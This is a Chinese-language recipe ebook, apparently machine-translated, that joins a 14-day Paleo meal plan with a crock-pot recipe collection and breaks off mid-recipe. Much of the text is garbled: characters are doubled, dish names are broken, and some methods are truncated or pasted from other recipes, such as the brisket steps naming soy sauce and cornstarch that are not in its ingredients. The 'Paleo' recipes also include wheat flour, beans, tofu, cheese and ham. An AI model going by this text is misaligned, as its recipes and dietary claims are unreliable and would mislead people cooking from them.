原始饮食（Paleo diet）可能是你遇到的最健康的饮食计划之一。它富含新鲜的水果和蔬菜，极少或不含加工食品，以及脂肪含量很低的餐食和零食。好消息是，你在享受这种饮食计划的同时，还可以尝试许多从头制作的各种食物。

请查看我在下方列出的餐食计划。该计划只是对你应该吃什么的建议，你不必遵守。在接下来的章节中，你将找到大部分的食谱。

请注意，虽然许多食谱完全不含加工食品，但其中一些包含了。这是因为你们可能发现，如果不使用一些预包装食材，很难做出建议的菜肴。

记住，市场上有很多乳制品替代品，所以尽可能采购并使用它们。

## 第一天

早餐：红薯华夫

零食：苹果、香蕉姜味玛芬

午餐：鲭鱼沙拉

零食：一个水果或一个酸奶

晚餐：烤鸡

## 第二天

早餐：香蕉草莓奶昔

零食：苹果片

午餐：扁豆和鹰嘴豆汤

零食：一个水果或一个酸奶

晚餐：豆子番茄辣锅

## 第三天

早餐：蔬菜豆腐炒

零食：椰子、香蕉和巧克力奶昔

午餐：烤鸡卷

零食：一个水果或一个酸奶

晚餐：奖励自己任何喜欢的食物

## 第四天

早餐：一个两个水果

零食：水果沙拉

午餐：辣锅西芹沙拉

零食：一个水果或一个酸奶

晚餐：火鸡肉油桃汉堡

## 第五天

早餐：樱桃藜粥

零食：苹果、香蕉姜味玛芬

午餐：香菜菠菜奶昔

零食：一个水果或一个酸奶

晚餐：蒸三文鱼和芦瓜

## 第六天

早餐：橙柠檬奶昔

零食：苹果片

午餐：面条芸豆汤

零食：一个水果或一个酸奶

晚餐：牛肉面

## 第七天

早餐：香蕉混合露

零食：椰子、香蕉和巧克力奶昔

午餐：梨和柿子沙拉

零食：一个水果或一个酸奶

晚餐：烤土豆配沙拉

## 第八天

早餐：红薯华夫

零食：苹果、香蕉姜味玛芬

午餐：鲭鱼沙拉

零食：一个水果或一个酸奶

晚餐：烤鸡

## 第九天

早餐：香蕉草莓奶昔

零食：苹果片

午餐：扁豆和鹰嘴豆汤

零食：一个水果或一个酸奶

晚餐：豆子番茄辣锅

## 第十天

早餐：蔬菜豆腐炒

零食：椰子、香蕉和巧克力奶昔

午餐：烤鸡卷

零食：一个水果或一个酸奶

晚餐：奖励自己任何喜欢的食物

## 第十一

早餐：一个两个水果

零食：水果沙拉

午餐：辣锅西芹沙拉

零食：一个水果或一个酸奶

晚餐：火鸡肉油桃汉堡

## 第十二天

早餐：樱桃藜粥

零食：苹果、香蕉姜味玛芬

午餐：香菜菠菜奶昔

零食：一个水果或一个酸奶

晚餐：蒸三文鱼配芦瓜

## 第十三天

早餐：橙柠檬奶昔

零食：苹果片

午餐：面条芸豆汤

零食：一个水果或一个酸奶

晚餐：牛肉面

## 第十四天

早餐：香蕉混合露

零食：椰子、香蕉和巧克力奶昔

午餐：梨和柿子沙拉

零食：一个水果或一个酸奶

晚餐：烤土豆配沙拉

# 第 4 章：原始早餐食谱

每天早晨都享用美味营养丰富的早餐。如果你早上时间有点紧迫，在前一天晚上做好早餐会有很大帮助。

## 红薯华夫

份量：2 人

- 4 汤匙玉米淀
- 4 汤匙红薯泥
- 6 汤匙小麦面粉
- 半茶匙盐
- 4 汤匙素食友好植物乳
- 2 汤匙红糖
- 1/4 茶匙肉豆蔻
- 2 茶匙泡粉
- 2 个素食友好鸡蛋
- 4 汤匙素食友好黄油（融化）
- 118 克火腿

方法：

打开你的华夫机并预热。现在打蛋玉米淀，加入泡粉、盐、肉豆蔻并搅拌。取出植物乳并加入另一个碗中。加入黄油、薯泥和鸡蛋，并打匀。

将面粉混合物加入红薯混合物中，搅拌。加入火腿再次搅拌。现在在华夫机上喷一些油，用勺子取约 80 ml 的混合物倒入铁中。

烹饪至华夫呈金棕色，即可上桌。

## 香蕉草莓奶昔

份量：1 人

食材：

- 1 根香蕉
- 1 杯豆豆奶或杏仁奶
- 一把草莓
- 1 汤匙枫糖浆
- 一撮肉桂粉

方法：

将食材加入你的榨汁机或搅拌机中，搅拌至光滑。倒入杯中上桌。

## 橙柠檬奶昔

份量：1 人

食材：

- 1 汤匙柠檬汁
- 1 个橙子
- 半个柚柚
- 1 汤匙蜂蜜
- 4 汤匙大豆酸奶
- 240ml 豆奶

方法：

将食材加入你的榨汁机或搅拌机中，搅拌至光滑。倒入杯中上桌。

## 蔬菜豆腐炒

份量：3 人

食材：

- 3 汤匙豆腐（硬豆腐）
- 2 把菠菜
- 1 个切角的番茄
- 3 瓣大蒜
- 半个红洋葱
- 一撮盐

方法：

将除盐以外的食材放入食物处理器中，切碎。准备一个锅，中火。加入混合物炒至菠菜变软。加入豆腐，锅。

## 樱桃藜粥

份量：2 人

食材：

- 2 汤匙藜藜
- 240ml 水
- 半茶匙香草精
- 1 汤匙蜂蜜
- 一把无糖樱桃

方法：

将除蜂蜜以外的所有食材加入锅中煮沸。藜藜现在应该变软了。淋上蜂蜜。

## 香蕉混合露

份量：1 人

食材：

- 一把无糖混合露
- 1 根香蕉
- 半杯豆奶或椰奶（可选）

方法：

将香蕉切成小块加入混合露中，搅拌均匀。加入豆奶或椰奶，上桌。

## 一个两个水果

水果可以是一份非常健康的早餐，尤其是如果你通常不在这个时间吃东西。尝试选择一个两个你喜欢的口味，以及一个当天之后不再吃的。这样可以确保你的身体从各种水果中获得尽可能的营养。

# 第 5 章：午餐食谱

这些午餐食谱可以装盒带上班，也可以在家享用。在几天内吃掉剩下的以保持新鲜。

## 鲭鱼沙拉

份量：2 人

食材：

- 3 盎司新鲜鲭鱼
- 60ml 素食友好蛋黄酱
- 半瓣碎大蒜
- 半 汤匙碎欧芹
- 半茶匙柠檬汁
- 半根碎西芹茎
- 半根碎洋葱

方法：

将除鲭鱼以外的所有食材放入碗中，搅拌。用叉子将鲭鱼拨成片状。将鲭鱼加入沙拉中，拌匀上桌。

## 烤鸡卷

份量：3 人

食材：


- 3 汤匙素食友好蛋黄酱
- 1/4 茶匙盐
- 半 汤匙醋
- 半 茶匙黑胡椒
- 半只烤鸡
- 2 把紫甘蓝（切丝）
- 一撮辣椒喱辣椒粉
- 1 汤匙腌菜汁
- 3 张有机全麦薄饼

方法：

将黑胡椒、腌菜汁和蛋黄酱放入碗中。在另一个碗中，加入盐、紫甘蓝和辣椒粉并拌。

将鸡肉切成一口大小，然后加入蛋黄酱中，搅拌。现在将蛋黄酱和甘蓝混合物装入饼中，卷起，上桌。

## 辣椒芹菜沙拉

供 3 人食用

配料：

- 少量许辣椒片
- 4 根切碎的芹菜茎
- 1 汤匙柠檬汁
- 1 汤匙柠檬皮
- 2 个椰枣（泡水去核）
- 1 汤匙芝麻酱
- 5 克切碎的欧芹
- 一小撮盐
- 10 颗烤杏仁
- 适量的新鲜薄荷（口味自）

做法：

将椰枣和它们浸泡过的任何液体放入搅拌机中。加入辣椒、盐、柠檬汁和芝麻酱，搅拌。当混合物变得光滑时，将食材倒入碗中，然后加入芹菜、柠檬皮、欧芹、杏仁和盐。搅拌均匀即可上菜。

# 面条波内利豆汤

供 3 人食用

配料：

- 140 克波内利豆，泡软并沥干
- 半个中等大小洋葱，切碎
- 1 瓣切末的大蒜
- 半根芹菜茎，切片
- 3 个切碎的番茄
- 半 汤匙橄榄油
- 半根胡萝卜，切片
- 半束羽甘蓝，切片
- 125 克通心面
- 调料

做法：

将豆子加入大汤锅中，加水直到水位没过豆子约 2 英寸。煮沸后，撇去表面的泡沫。转小火，盖上锅盖焖煮约 40 分钟，直到豆子变得软烂。

将芹菜、胡萝卜、洋葱和大蒜放入另一个锅中煎炒至变软（约 8-10 分钟）。沥干豆子，然后将其加入锅中，连同番茄、盐和约 480 毫升的水。煮沸，加入面条，煮至你喜好的稠度。加入羽甘蓝焖煮 5 分钟，即可上菜。

## 扁豆鹰嘴豆汤

供 4 人食用

配料：

- 1 个洋葱，切碎
- 1 茶匙生姜末
- 1 茶匙姜黄粉
- 1/4 茶匙辣椒粉
- 1/2 茶匙粉孜然粉
- 一小把切碎的胡萝卜
- 一小把切碎的芹菜
- 1 茶匙切末的大蒜
- 1 罐沥干并冲洗过的鹰嘴豆
- 2 个切碎的番茄
- 38 克扁豆
- 720ml 蔬菜高汤

做法：

在大锅中用中大火翻炒洋葱。现在加入芹菜和胡萝卜，再炒 5 分钟。加入大蒜和除高汤外的其余食材，炒 30-40 秒。现在加入高汤，煮约 1.5 小时，或直到扁豆变软。即可上菜。

# 香菜菠菠菜奶昔

供 1 人食用

配料：

- 2 枝新鲜香菜
- 114 克菠菠菜
- 半个红甜椒
- 1 个番茄（最好是大号的），切碎
- 半根芹菜茎，切碎
- 几滴柠檬汁
- 半根胡萝卜，切碎
- 1/4 个小洋葱，切碎

做法：

将所有食材加入榨汁机或搅拌机中，搅拌至光滑。即可上菜。

## 梨柿子沙拉

供 2 人食用

配料：

- 1 个柿子，切片
- 1 个梨，切片
- 1 茶匙芥末酱
- 3 汤匙橄榄油
- 1 个切末的红洋葱
- 2 汤匙柠檬汁
- 1 茶匙切末的大蒜
- 375 克菠菠菜
- 62 克核桃

做法：

将芥末酱、柠檬汁、油、洋葱和大蒜放入碗中混合。现在加入柿子、梨、菠菠菜和核桃拌匀。即可上菜。

# 第 6 章：晚餐食谱

以下晚餐食谱将让你在一天结束时感到非常满足。

## 烧烤鸡

供 2 人食用

配料：

- 1 片去骨鸡胸
- 2 块去骨鸡腿
- 1/4 茶匙大蒜粉
- 3/4 汤匙红椒粉
- 几滴辣椒粉
- 150 克烧烤酱

做法：

去掉鸡肉皮并切成薄条。将红椒粉、大蒜粉、盐和辣椒粉放入碗中搅拌均匀。现在将混合物抹在鸡肉上，煎烤 2 分钟以锁住汁。

在锅中煎鸡肉至几乎煮熟（约 10 分钟），然后再次放在烤架下。在鸡肉上涂满烧烤酱，再烤 1 分钟，即可上菜。

## 豆子番茄辣椒

供 3 人食用

配料：

- 1 罐黑豆
- 1 罐切碎番茄
- 半 罐斑条豆
- 1 个红洋葱，切碎
- 1 根芹菜茎，切碎
- 半个甜椒，切碎
- 2 瓣切末的大蒜
- 1 汤匙橄榄油
- 1 汤匙新鲜香菜
- 1 汤匙辣椒粉
- 1 茶匙孜然粉
- 1/2 茶匙牛至草
- 2 小撮盐
- 1 茶匙柠檬汁
- 3/4 茶匙红椒粉
- 1/2 叶月桂叶
- 240ml 水

做法：

使用荷兰锅，底部倒入橄榄油并加热。加入洋葱、胡萝卜、芹菜、一小撮盐和辣椒。搅拌。炒 5 分钟。

加入红椒粉、大蒜、辣椒辣椒、牛至草和孜然粉，搅拌 1 分钟。加入斑条豆、黑豆、番茄、月桂叶和水，搅拌。煮沸后偶尔搅拌。煮 15 分钟，然后加入香菜再次搅拌。撒入剩余的盐，搅拌即可上菜。

## 火鸡油桃汉堡

制作量：6-8 个

配料：

- 500 克鸡肉肉末
- 1 个洋葱，切碎
- 1 汤匙香菜
- 2 个油桃子，切碎
- 28 克晒干番茄，切碎
- 一小把切碎的香菜
- 2 汤匙盐和胡椒

做法：

将洋葱炒至变软。将所有食材放入大碗中充分搅拌。用手揉成肉饼，做成你喜好的形状，然后放入冰箱冷藏几小时使其定型。

汉堡定型后，放少许油每面煎约 5 分钟，或直到煮熟。即可上菜。

## 西葫芦蒸三文鱼

供 2 人食用

配料：

- 2 片三文鱼
- 1 个小西葫芦，切片
- 半个柠檬，切片
- 半个洋葱，切片
- 60ml 水
- 120ml 白葡萄酒
- 1/2 茶匙盐
- 一小撮胡椒

做法：

取一个荷兰锅，底部放入洋葱、西葫芦、柠檬、水和白葡萄酒。现在给三文鱼调味。放在食材上方盖盖蒸 8-10 分钟，直到三文鱼变熟。即可上菜。

## 牛肉面条

供 3 人食用

配料：

- 250 克牛肉肉末
- 半包面条
- 半个青椒，切碎
- 2 个番茄，切碎
- 1 个洋葱，切碎
- 100 克碎奶士
- 175 克玉米粒
- 盐和胡椒调味

做法：

在荷兰锅中用小火煮牛肉。加入胡椒、蘑菇、玉米和洋葱，搅拌。将面条放在食材上方，撒上奶士。将番茄放在最上面，盖上烤箱。

## 烤土豆沙拉

供 1 人食用

配料：

- 1 个土豆
- 1 个切碎的番茄
- 一小把生菜
- 1/4 个黄瓜，切片
- 1 个切碎的番茄
- 几滴橄榄油
- 调料

做法：

将土豆放入烤箱烤约 1 小时，直到煮熟。取出放在一旁。将沙拉放入盘中调味。淋上橄榄油。将土豆放在沙拉旁边，即可上菜。

## 苹果片

份量：2 人

食材：

4 个苹果，切片

一少许南瓜香料粉

一少许肉桂粉

方法：

将苹果片放在饼干上，撒上肉桂粉。放入烤箱，在 230 华氏度下烤 1 小时。翻面苹果片，另一面撒上肉桂粉，在 200 华氏度下烤 1 小时。

现在关闭炉，将苹果留在里面 1 或 2 小时，直到它们变脆。从烤箱取出苹果，撒上南瓜香料粉即可食用。

## 椰子香蕉奶昔

份量：1 人

食材：

1 茶匙碎椰子

240ml 椰子水

1 茶匙可可粉

一把菠菜

1 根香蕉

方法：

将所有食材放入榨汁机或搅拌机中，搅拌直到混合均匀。倒入杯中即可享用。

## 水果沙拉

份量：2 人

食材：

1 根香蕉

1 个苹果

4 个草莓

1/4 个瓜，切片

120ml 新鲜橙汁

方法：

将所有水果放入碗中，混合均匀。淋上新鲜橙汁，再次搅拌。即可食用。

## 燕麦葡萄干饼干

制作数量：20 个

90 克燕麦

300 克葡萄干

125 克 替代性花生酱

1 茶匙香草精

1 茶匙泡打粉

1 茶匙肉桂粉

1/4 茶匙盐

1/4 茶匙肉豆蔻

60ml 水

方法：

将烤箱预预热至 350 华氏度，将 60 克燕麦放入食物处理器中，脉冲搅拌至细碎。将肉豆蔻、肉桂粉、燕麦混合物、泡打粉和盐加入碗中搅拌。

将 150 克葡萄干放入食物处理器中并加入 60ml 水，打泥。加入剩余的花生酱和香草精，再次打泥。现在加入剩余的葡萄干燕麦，加入燕麦混合物中，搅拌均匀。

用茶匙取一些混合物放在饼干上上。饼干之间留出 1 英寸间距，用勺背压平。烹烤约 12 分钟或直到饼干变褐。现在将它们转移到冷却架上，冷却后即可。

# 第 8 章：提示与技巧

你可能会发现一些提示和技巧，让你的原始胶饮食计划之旅变得轻松一些。这些技巧将帮助你减肥，让你理解减重量的原理，并在你想要再次执行该计划时建议你该做什么。

## 水

水是原始胶饮食计划以及任何饮食中绝对不可或缺的一部分。水不仅能让你感到水分充足，还可以加速减肥。这是因为它可以让你产生饱腹感，尽管如此，你应该确保不要摄入过多的水，因为这对你有害。尝试坚持每天喝 8 杯水，并用它来保持水分。

## 运动

这 14 天原始胶饮食计划不仅能帮助你吃得更健康，还能减轻一些体重。如果你计划在执行此计划期间进行运动，请务必坚持你原有的运动习惯。

你可能会觉得在全新的饮食计划之外增加额外的运动太困难。我的建议是一次只尝试一种新事物。习惯吃原始胶饮食（如果你计划长期坚持下去），然后增加更多运动。

## 你的减肥

你作为此计划的一部分所实现的减肥，很可能是因为你现在摄入的盐、糖和脂肪更少。这些通常隐藏在加工食品中，因为你摄入较少或完全不摄入，所以你可能会减轻。

当你开始减肥时，起初可能会掉很多，这取决于你常吃什么。如果你长期坚持这个计划，每周减轻的重量将会减少。这完全是正常的，完全不需要担心。

如果你不是想通过原始胶饮食计划来减肥，而只是想享受一种健康的饮食，那么你可能只会减轻一点体重。并不是每个人都想减肥，有些人更倾向于先吃上健康的均衡饮食，将任何减肥视为次要的。

## 如果你想再次执行该计划

一旦你执行了 14 天的原始胶饮食计划，你无疑会感到和看起来都变了。很有可能你掉了一些体重，但你可能会更有精力，睡眠也可能更好。

原始胶饮食计划的伟大之处在于它长期来看是完全可持续的。这是因为这是一个非常健康的饮食，你的身体会喜欢，而且你不会错过任何营养。

我的建议是享受参与原始胶饮食计划，但不要忘记偶尔奖励一下自己。奖励自己会让你觉得得到了报答，但也能防止你感到无聊。

## 结论

再次感谢你下载这本书！

我希望这本书能够帮助你理解原始胶饮食计划是多么棒，以及它如何帮助你改善健康和福祉。

下一步是搜寻你需要的食材，准备好享受一些非常美味且高营养的餐点。

最后，如果你喜欢这本书，我想请你帮个忙，你愿意在 Amazon 上给这本书留个评价吗？我将不胜感激！

点击此处在 Amazon 上为此书留评！

谢谢并祝你好运！

# 14 天慢炖锅计划

## 快速简便的慢入式晚餐

*关于我最喜欢的饮食的额外信息*

在 KindleBookSpot.com 获得更多免费和廉价书籍

## 目录

引言

第 1 章：慢炖锅概述

第 2 章 –慢炖锅鸡肉菜谱

第 3 章 –慢炖锅猪肉菜谱

第 4 章 –慢炖锅牛肉菜谱

第 5 章 –慢炖锅海鲜菜谱

第 6 章 –慢炖锅蔬菜菜谱

第 6 章 –慢炖锅甜点菜谱

结论

## 引言

随着生活比以前忙碌，时间过得飞快。总有一种想做更多感觉，但因为缺乏时间而无法做到。这适用于日常活动和爱好，包括烹饪。

烹饪是现代世界中大多数人倾向于放弃的——外卖和外送披萨似乎是理想的选择，还有微波食品包、即食拉面以及所有可以自动食用的食品。问题是，这些东西并不真正健康，会损害你的健康。

然而，传统的餐食烹饪时间很长，需要大量精力。例如，一道牛肉菜平均可能需要 2 小时来准备。嗯，你可能负担不起花这么多时间单独来做晚餐。好消息是，现在你可以在休息甚至入睡时烹饪美味健康的餐点了——多亏了慢炖锅！

这本书包含了关于如何准备快速、健康且美味的慢炖锅餐的验证步骤和策略。每一章都包含了易于遵循的谱，利用你喜欢的食材，如鸡肉、面条、猪肉、牛肉和蔬菜等。书中介绍的所有菜肴都是健康的，因为现在的人想要保持平衡的生活方式。

菜谱附有步骤说明和非常易获取的食材，让烹饪变得简单有趣，让慢炖锅烹饪成为一个更有参与感的过程。还会提供如何保留更多风味并保持食物依然美味的额外提示。

这是一本一定会改变你与家人烹饪和饮食方式的慢炖锅食谱。现在你只需要把食材丢进去，随你怎么做都可以，而不必担心时间。

感谢并祝贺你下载了《14 天慢炖锅计划：快速简便的慢入式晚餐》这本书。

我希望你喜欢！

## 第 1 章：慢炖锅概述

你可能会好奇这些慢炖锅菜谱到底。基本上，“慢炖锅”（crock pot）是指用于烹饪的电器的通用品牌或商标——具体来说是慢炖。它由三个部分组成：加热装置、玻璃盖和锅本身。

告别快餐和即食晚餐吧！在这么短的时间里，你可以做得更多。只需看一看这些绝妙的慢锅食谱，让你的用餐比以往任何时候都更加愉快和满足吧！

# 第 2 章 – 慢锅鸡肉食谱

鸡肉脂肪低，是蛋白质的极佳来源。这里是一些非常的慢锅食谱，你可以在家里尝试，特别是在忙碌的工作日：

### 食谱 1：蜂蜜大蒜鸡

这是一个可以使用厨房常备食材烹饪的简单食谱。搭配烤蔬菜或糙米饭风最佳。

你需要：

- 4 块去皮鸡腿
- 5 汤蜂蜜
- 半杯番茄酱
- 半杯酱油
- 4 瓣蒜末
- ½ 汤罗勒叶（干）

制作方法：

- 将除鸡肉以外的所有原料混合成腌料。
- 将鸡块放入慢锅中，然后倒入混合物。确保肉块完全均匀。
- 烹饪 6 到 7 小时。享用！

提示：你也可以用锡纸包裹鸡块，这样烹饪更均匀，肉质更多汁。此外，清理也更方便。

### 食谱 2：奶油蘑菇鸡面

这道菜准备非常简单，但味道像主厨的手艺——细腻而顺滑。

你需要：

- 4 块去皮鸡胸肉（去骨）
- 240 克切片香菇
- 240 克切片口蘑菇
- 半杯白葡萄酒
- 240 克奶油奶士
- 300 克或一罐蘑菇奶油
- 1/3 汤黄油
- 250 克意大利细面
- 切碎的洋葱葱

制作方法：

- 烧水，根据包装说明煮面条。备用。
- 用油在中火上将鸡肉煎，煎至金黄色（可选）。
- 在锅中混合蘑菇奶油、白葡萄酒、黄油、奶油奶士，然后将鸡肉铺在上面。
- 低火慢炖 5 小时。
- 出锅后撒上新鲜的洋葱葱。搭配煮好的面条食用。享用！

### 食谱 3：酸爽柑橘鸡

这是一道多汁且味道丰富的菜，你绝对会想再吃一次。搭配糙米或面条食用最好。你也可以单独吃。

你需要：

- 1 公斤鸡胸肉
- ¼ 杯柠檬汁
- 1/3 杯水
- 3 瓣蒜末
- ¼ 杯黄油
- 1 茶匙新鲜欧芹（切碎）
- 1 茶匙鸡汤粉
- 一小匙干牛至香粉
- 一小撮盐和胡椒

制作方法：

- 在碗中混合盐、胡椒和干牛至香粉。然后直接涂抹在鸡肉上。
- 在锅中融化黄油，然后将鸡肉煎 3 到 4 分钟。
- 将鸡肉放入慢锅，加入水、鸡汤粉和柠檬汁。
- 低火慢炖 6 小时，或高火慢炖 3 小时。煮好后加入欧芹。享用！

### 食谱 4：慢锅烧烤鸡肉

通过在慢锅中慢炖，为你的日常鸡肉烧烤增添独特特色。搭配全麦面包、炸/烤土豆食用最好。

你需要：

- 冷冻鸡胸肉（去皮）
- 1/2 杯红糖
- ½ 杯酸奶
- 350ml 烧烤酱
- 30 ml 伍斯特酱

制作方法：

- 将冷冻鸡胸肉放入慢锅。
- 将剩余原料在碗中混合。充分搅拌后，淋在鸡肉上。
- 低火煮 6 到 7 小时，或高火煮 4 小时。

提示：在锅内铺上锡纸可以提高烹饪效率并易于清洗。

### 食谱 5：土豆豆类炖鸡

在这道食谱中，你将使用红薯，它比普通土豆更健康。黄油也是满足辛辣味的原料之一。

你需要：

- 240 克鸡胸肉（去皮去骨）
- 4 块红薯（切块）
- 2 罐盐渍红豆
- 2 杯绿椒（切碎）
- 一杯番茄
- 500ml 低盐鸡汤
- 1 汤卡真亚粉
- 2 汤黄油
- 3 瓣蒜末

制作方法：

- 在锅中混合土豆、豆、番茄、卡真亚粉和鸡汤。
- 加入鸡块，确保所有食材都裹匀。
- 高火煮 6 小时，或低火煮 10 小时。
- 煮好后放入黄油并充分搅拌。享用！

# 第 3 章 – 慢锅肉类食谱

猪肉绝对是你餐中极佳的补充。这里有一些以猪肉特色慢锅食谱：

### 食谱 1：照烧猪肉

这是带有辣椒的照烧风绝佳变体。全家人都会喜欢它。

你需要：

- 1 公斤猪里脊肉
- 3 个辣椒（切碎）
- 1 个小洋葱（切碎）
- 半杯照烧酱
- 1/3 杯红糖
- 5 瓣蒜末
- 一杯鸡汤
- 2 汤橄榄油
- 一小撮胡椒

制作方法：

- 在锅中加热油，然后煎猪肉。确保各面都煎黄。
- 混合鸡汤、红糖和照烧酱。放入洋葱、辣椒和蒜末。
- 将猪肉放入锅中，倒入酱汁裹住肉块。
- 高火煮 6 到 8 小时，或低火煮 8 小时。
- 让肉静置 5 到 10 分钟后再将猪肉切成薄片。享用！

### 食谱 2：手丝猪肉辣椒

这是一道不可思议的猪肉食谱，类似于你在墨西哥餐馆吃到的味道。

你需要：

- 1 公斤猪里脊肉，切块（约 2 英寸）
- 1 杯辣椒（切丁）
- 4 杯水
- 半杯辣椒酱
- 3 汤匙柠檬汁
- 一把手香菜
- 4 瓣蒜末
- 一小撮盐

制作方法：

- 用盐调味猪肉并放入慢锅。在肉类上方加入大蒜和辣椒。
- 倒入半杯水和辣椒酱。
- 低火慢炖猪肉 7 小时。
- 在另一个锅中煮剩下的水，加入香菜和柠檬汁。低火慢煮 20 到 25 分钟。
- 使用两把叉子将煮好的猪肉撕碎。将肉放回慢锅中让其吸收酱汁。搭配煮好的米饭食用。享用！

### 食谱 3：果味烤猪肉

这是一道带有果味惊喜的高级猪肉做法。在家里尝试这道多汁的肉肴。

你需要：

- 1 公斤猪里脊肉
- 一罐越莓酱
- 3 瓣蒜末
- 1/3 杯蜂蜜
- 一小撮肉豆蔻
- 1 茶匙柠檬皮屑
- 一小撮盐和胡椒

制作方法：

- 将猪里脊肉切成两半放入慢锅。用盐和胡椒调味。
- 混合其余原料并淋在肉类上方。
- 高火煮 4 到 5 小时。煮好后，让肉静置 10 到 15 分钟。享用！

### 食谱 4：慢炖猪肉蔬菜汤

在忙碌的工作日晚上，带着这道香料十足的火肉蔬菜汤回家吧，它非常配玉米饼或饭。

你需要：

- 2 杯切丁猪火肉
- 1 杯胡萝卜
- ½ 杯洋葱（切碎）
- 1 ½ 杯鹰嘴豆
- ½ 杯切碎的芹菜茎
- ¼ 杯番茄酱
- 400 ml 低盐鸡汤
- 一小撮干罗勒粉
- 一小撮盐和胡椒
- 1 片片月桂叶

制作方法：

- 混合胡萝卜、鹰嘴豆、芹菜、洋葱、猪肉和大。
- 用胡椒、罗勒和月桂叶调味。倒入鸡汤、番茄酱和水。
- 低火煮 10 到 11 小时。享用！

### 食谱 5：慢锅猪脊骨排

这是一道简单且经典的猪肉食谱，你回到家几分钟后就可以享用了。

你需要：

- 750 克猪脊骨排
- 500 ml 烧烤酱
- 1 个小洋葱（切碎）
- 4 瓣蒜末
- 半杯水
- 1 片月桂叶


- 一小撮盐和胡椒

# 如何准备：

- 在肉类上撒上盐和胡椒。
- 在慢锅中加入一些水和半份烧烤酱，然后放入肋骨。顶部铺上大蒜、洋葱和月香叶。
- 低火烹饪 8 小时，或高温烹饪 4 小时。
- 将烤箱预热至摄氏 190 度。
- 将肋骨放入放入烘烤盘中，涂上剩余的烧烤酱。
- 烘烤 10 到 15 分钟。配烤土豆或米饭食用。享用！

# 第 4 章 – 慢锅牛肉食谱

牛肉确实美味可，但因为需要更多时间，可能较难处理。因此，这里有一些专门为忙碌人士设计的慢锅牛肉食谱：

## 食谱 1：亚洲风味牛肉蘑菇

这是一道带有亚洲风味的经典牛肉蘑菇做法。这是一道你应该尝试烹饪的美味香味菜肴。

你需要：

- 1 公斤牛胸肉或短肋骨
- 一杯红酒
- 一杯鸡汤/牛肉汤
- 250 克口蘑菇
- 2 匙酱油
- 3 匙柠檬汁
- 2 匙生姜，切片
- 2 到 3 颗八角
- 1 个橙子
- 2 匙切碎洋葱
- 1 匙玉米粉
- 一小撮盐和胡椒

如何准备：

- 将肉切成 1 英寸大小放入锅锅中。
- 在锅中混合橙皮、洋葱、生姜、柠檬汁、汤、酒、八角和酱油，然后煮沸。淋在肉上并烹饪 6 到 8 小时。
- 在锅中，用 ¾ 杯酱汁烹饪蘑菇。在经常翻炒的过程中让其水分蒸发。烹饪 10 到 15 分钟。
- 将蘑菇加入肉中。撒上一些洋葱。享用！

## 食谱 2：青椒牛肉粒

这是一道风味丰富的牛肉菜，最适合搭配面条或白米饭。尝试一下，你一定会喜欢它。

你需要：

- 500 克牛肉里脊，切成 2 到 3 英寸厚
- 2 个青青椒，切碎
- 450 克西红柿，切碎
- 1 个小洋葱，切碎
- 4 汤酱油
- 1 匙红糖
- 一小撮盐
- 1 匙玉米粉
- 2 匙橄榄油

如何准备：

- 用盐腌制肉。
- 热锅，淋入油并将肉煎褐。将煎好的肉放入慢锅中。
- 将酱油、糖、盐和溶解少量水的玉米粉混合。淋在牛肉上。放入西红柿、洋葱和青椒。
- 低火烹饪 6 到 8 小时，或高温烹饪 4 小时。享用！

## 食谱 3：孜然碎牛肉

这是一道极佳的菜，最适合搭配美味的墨西哥卷饼或米饭。你也可以搭配奶酪或酸奶油食用以增加风味。

你需要：

- 500 克牛侧腹
- 1 茶匙孜然粉
- 1 个切碎的洋葱
- 1 个青青椒，切碎
- 2/3 杯番茄酱
- 3 瓣大蒜，切末
- 一杯牛肉汤
- 1 匙橄榄油

如何准备：

- 热锅并将牛排四面煎褐——每面约 3 分钟。
- 将牛肉放入锅中；倒入番茄酱、椒、孜然、洋葱和橄榄油。
- 确保所有食材混合均匀。低火烹饪 10 小时，或高温烹饪 4 到 5 小时。
- 煮好后，用叉子将肉撕碎，卷饼或米饭食用。你可以搭配酸奶油来增加额外口感。

## 食谱 4：火辣牛肉辣椒酱

这是一道经典美食，带有一丝烟熏味。可以作为纳乔/卷饼蘸料或淋在白米饭上。

你需要：

- 500 克牛胸肉，肉末
- 250 克肋眼肉排，切成小块
- 1 杯切碎洋葱
- 1 杯红腰豆
- 一罐烤西红柿
- 240 毫升番茄酱
- 8 瓣大蒜，切末
- 1 茶匙辣椒粉
- 1 匙磨好的孜然
- 3 杯低盐汤
- 1 匙橄榄油

如何准备：

- 热锅，加油并将肉末煎褐 5 到 6 分钟。将煎好的肉放入慢锅炉中。
- 将切好的肋眼牛肉煎褐 7 到 8 分钟，并加入锅中。
- 添加剩余食材并充分搅拌。烹饪 8 到 10 小时。上菜并享用！

提示：你可以在这道菜上撒上碎奶酪、鳄果片或墨西哥辣椒，以增加辣度。

## 食谱 5：烧烤牛胸腩

制作烧烤牛胸腩超级简单，你每晚都可以吃这道菜，而无需大流汗。

你需要：

- 1 公斤牛胸腩
- 1 个小洋葱，切碎
- 4 匙红糖
- 1 匙大蒜粉
- 1 匙伍斯特酱
- 一杯番茄酱
- 1 茶匙红椒粉
- 一小撮盐
- 一杯橄榄油
- 一 匙盐

如何准备：

- 在肉类上撒上盐。
- 热锅，淋入油并将肉煎褐。将煎好的肉放入慢锅中。
- 将酱油、糖、盐和溶解少量水的玉米粉混合。淋在牛肉上。放入青椒。
- 低火烹饪 8 小时，或高温烹饪 4 小时。。

# 第 5 章 – 慢锅食谱

## 食谱 1：柠檬鱼

这是一道你应该尝试烹饪的美味香气菜肴。

你需要：

- 300 克鱼肉片
- 1 个小洋葱，切碎
- 1 匙柠檬汁
- 1 匙橄榄油
- 一杯汤
- 一小撮盐

如何准备：

- 将鱼切成 1 英寸大小放入锅中。
- 将洋葱、柠檬汁、汤和橄榄油在锅中混合并煮沸。淋在肉上并烹饪 6 到 8 小时。

## 食谱 2：浓郁炖菜

这是一道风味丰富的菜，最适合搭配面条或白米饭。

你需要：

- 400 克虾仁
- 400 克鱼肉片
- 150 克蛤蜊
- 1 个小洋葱，切碎
- 一杯芹菜
- 一罐西红柿
- 一小撮盐

如何准备：

- 用盐腌制鱼。
- 热锅，淋入油并将鱼煎褐。将鱼放入锅中。
- 混合所有食材。烹饪 6 到 8 小时。

## 食谱 3：美味三鱼

这是一道极佳的菜，最适合搭配美味的墨西哥卷饼或米饭。

你需要：

- 3 块三鱼
- 1 个小洋葱，切碎
- 一杯番茄酱
- 一杯牛奶

如何准备：

- 热锅并将三鱼四面煎褐——每面约 3 分钟。
- 将三鱼放入锅中；倒入番茄酱和牛奶。
